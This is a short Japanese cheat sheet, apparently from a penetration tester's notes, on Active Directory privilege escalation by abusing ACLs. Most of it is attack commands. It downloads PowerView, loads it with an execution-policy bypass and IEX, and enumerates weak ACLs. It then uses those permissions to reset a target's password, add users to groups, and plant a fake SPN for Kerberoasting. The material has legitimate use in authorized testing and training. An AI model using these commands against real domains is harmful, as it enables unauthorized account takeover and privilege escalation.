 # Privilege Escatlation
(権限昇格のための列挙・攻撃)

## ACL (アクセス制御リスト) の悪用

### 列挙 (PowerView)
PowerViewはこいつしか信用するな
```sh
wget https://github.com/PowerShellMafia/PowerSploit/raw/refs/heads/dev/Recon/PowerView.ps1
```

モジュールの読み込み
```sh
# 1) ドットソース（前に「.（ドット）+ 半角スペース」必須）
. .\PowerView.ps1

# 2) IEXで読み込み
IEX (Get-Content .\PowerView.ps1 -Raw)

# 3) 実行ポリシーで止まる時は一時的にバイパス
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
. .\PowerView.ps1
```

オブジェクトに対する不適切なACL設定（書き込み権限など）の探索
```powershell
Find-InterestingDomainAcl
```
- 特定ユーザーの権限
```powershell

$sid = Convert-NameToSid <USER>; Get-DomainObjectACL -ResolveGUIDs -Identity - | ? {$_.SecurityIdentifier -eq $sid}
```
### 権限行使 (PowerView例)
PowerViewはこいつしか信用するな
```sh
wget https://github.com/PowerShellMafia/PowerSploit/raw/refs/heads/dev/Recon/PowerView.ps1
```


発見したACLの権限を利用して、パスワード変更、グループ追加、SPN書き換えなど
- パスワード変更
```powershell
Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword <NEW_PASS_OBJ> -Credential <CRED_OBJ>
```
- グループ追加
```powershell
Add-DomainGroupMember -Identity '<TARGET_GROUP>' -Members '<USER_TO_ADD>' -Credential <CRED_OBJ>
```
- SPN書き換え (Kerberoast準備)
```powershell
Set-DomainObject -Credential <CRED_OBJ> -Identity <TARGET_USER> -SET @{serviceprincipalname='fake/spn'}
```
